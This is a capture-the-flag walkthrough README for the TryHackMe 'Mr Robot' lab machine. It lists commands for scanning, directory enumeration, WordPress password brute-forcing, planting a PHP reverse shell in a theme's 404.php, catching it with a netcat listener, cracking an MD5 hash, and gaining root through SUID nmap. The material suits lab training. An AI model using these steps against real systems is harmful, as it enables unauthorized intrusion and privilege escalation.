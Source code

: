 # MRrobotCTF
#created this repo as a guide to mrrobot CTF/Vuln machine follow the steps have fun !
QMARK CTF



Steps:

#download the vpn file to connect tryhackme server

#save in desktop 

#open terminal in the folder and type command [sudo openvpn filename.octozion.ovpn]     //if you dont have openvpn installed follow this link https://openvpn.net/community-resources/installing-openvpn/

#Join the room

#Task 1:instructions 
#Task2 :
    KEY1 & 2 & 3 :
    #Cope the IP Address to the clipboard
    #Open terminal  make a folder to work with this CTF using the command [mkdir]
    #Run nmap on the ip address [sudo nmap -sV -A -sC 10.10.44.213 | tee nmapout.txt ]       //network scan and storing the result in nmapout.txt
    #Port  80 is open
    #Use burp suit > proxy > open browser > intercept off and paste the ip address
    #Use gobuster with the wordlist downloaded from my githum [sudo gobuster -u http://10.10.44.213/ dir -w wordlistgobuster.txt -x .txt | tee gobusterout.txt]
    #Found /wp-admin , robots.txt
    #Use wp-scan [ sudo wpscan --url 10.10.35.137 --passwords simplefsociety.txt -U simplefsociety.txt ]
    #Download the shell https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
    #inside wp dashboard go to  appreance and editor
    #edit in 404.php code ane save and use netcat [nc -lvnp 1234 ]
    #To make the session more stabel [ python -c 'import pty;pty.spawn("/bin/bash")' ]
    #now to goto /home/robot two file now use command [cat password.raw-md5 ]
    #copy the md5 has and use john the ripper and save as mrrobot.hash
    #use john the ripper tool   [sudo john mrrobot.hash --wordlist=simplefsociety.txt --format=Raw-MD5]
    #got the password abcdefghijklmnopqrstuvwxyz
    #type su robot and type the password and cat the key 2
    #use the command [find / -perm +6000 2>/dev/null | grep '/bin'] which checks the privilage excaltion to goto root
    #nmap is inside it 
    #now use https://gtfobins.github.io/gtfobins/nmap/	to  get the command for privillage excalation
    #nmap --interactive     //command to shift nmap interactive mode
    #nmap> !sh      //command to shit root
    # ls /root/     //gives the third key
    #open the [IP/key-1-of-3.txt] //done for the first key.
